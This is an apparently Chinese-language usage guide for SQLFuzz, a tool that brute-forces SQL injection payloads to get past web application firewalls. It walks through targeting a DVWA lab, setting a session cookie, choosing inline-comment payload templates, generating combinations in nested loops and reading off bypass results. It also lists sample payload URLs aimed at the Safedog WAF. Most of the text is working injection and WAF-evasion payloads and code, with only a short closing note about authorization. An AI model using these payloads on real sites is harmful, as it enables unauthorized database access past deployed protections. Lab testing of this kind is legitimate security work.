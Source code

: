 # SQLFuzz 使用示例

本文档通过实际案例展示如何使用 SQLFuzz 工具进行 SQL 注入测试和 WAF 绕过。

## 基本使用步骤

### 1. 准备测试环境

在本示例中，我们使用 DVWA (Damn Vulnerable Web Application) 作为测试目标。您可以在本地搭建 DVWA 环境：

```bash
# 使用 Docker 安装 DVWA
docker pull vulnerables/web-dvwa
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

### 2. 修改配置参数

打开 `sqlfuzz.py`，修改以下参数以适配您的测试环境：

```python
# 设置目标 URL
url_start = "http://192.168.88.119/DVWA/vulnerabilities/sqli/?id=1"

# 配置请求头信息，包括身份验证 Cookie
headers = {
    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36",
    "Cookie": "security=low; PHPSESSID=jga8ilgk0h7h36sps6jvr71pub"
}
```

### 3. 选择合适的 Payload 模板

根据目标应用的特性和可能存在的 WAF 类型，选择合适的 payload 模板：

```python
# 针对普通 SQL 注入
payload = "'/*!union"+a+b+c+"select*/1,2#"

# 针对带有排序功能的注入点
payload = "'/**//*!*/AND/*!*/"+a+b+c+"/**/order/**/by/**/1--+"

# 针对安全狗等 WAF 的绕过测试
payload = "'/**//*!*/and/*!*/"+a+b+c+"/**/'1'='1"
```

### 4. 执行测试

```bash
python sqlfuzz.py
```

### 5. 查看结果

测试过程中会实时显示进度：

```
Now URL: http://192.168.88.119/DVWA/vulnerabilities/sqli/?id=1'/**//*!*/and/*!*/+/**/'1'='1&Submit=Submit#
完成进度: 1234/3375
```

成功绕过 WAF 的 payload 会被标记出来并保存到 Results.txt 文件：

```
[*]Find BypassWAF Payload: http://192.168.88.119/DVWA/vulnerabilities/sqli/?id=1'/**//*!*/and/*!*/%20/**/'1'='1&Submit=Submit#
```

## 实际案例：绕过安全狗 WAF

在这个示例中，我们尝试绕过安全狗 WAF 对 SQL 注入的防护：

1. 修改目标 URL 为部署了安全狗的测试站点
2. 选择针对安全狗优化的 payload 模板：
   ```python
   payload = "'/**//*!*/and/*!*/"+a+b+c+"/**/'1'='1"
   ```
3. 执行测试并记录成功的绕过方式

### 成功绕过的 Payload 示例

以下是一些可能成功绕过安全狗 WAF 的 payload：

```
http://target-site/page.php?id=1'/**//*!*/and/*!*/%20/**/'1'='1
http://target-site/page.php?id=1'/**//*!*/and/*!*/%0a/**/'1'='1
http://target-site/page.php?id=1'/**//*!*/and/*!*/+/**/'1'='1
```

## 自定义测试

您可以根据自己的需求修改 fuzz 字符集和组合方式：

```python
# 添加更多特殊字符
fuzz_zs = ['/*','*/','/*!','/**/','?','/','*','=','`','!','%','_','-','+','@','#']

# 添加更多编码字符
fuzz_ch = ["%09","%0a","%0b","%0c","%0d","%20","%a0","%00"]

# 增加组合层数
for a in fuzz:
    for b in fuzz:
        for c in fuzz:
            for d in fuzz:
                payload = "'/**//*!*/and/*!*/"+a+b+c+d+"/**/'1'='1"
```

## 注意事项

- 请确保在合法授权的情况下进行测试
- 测试前备份重要数据
- 在测试环境中优先验证，避免影响生产系统 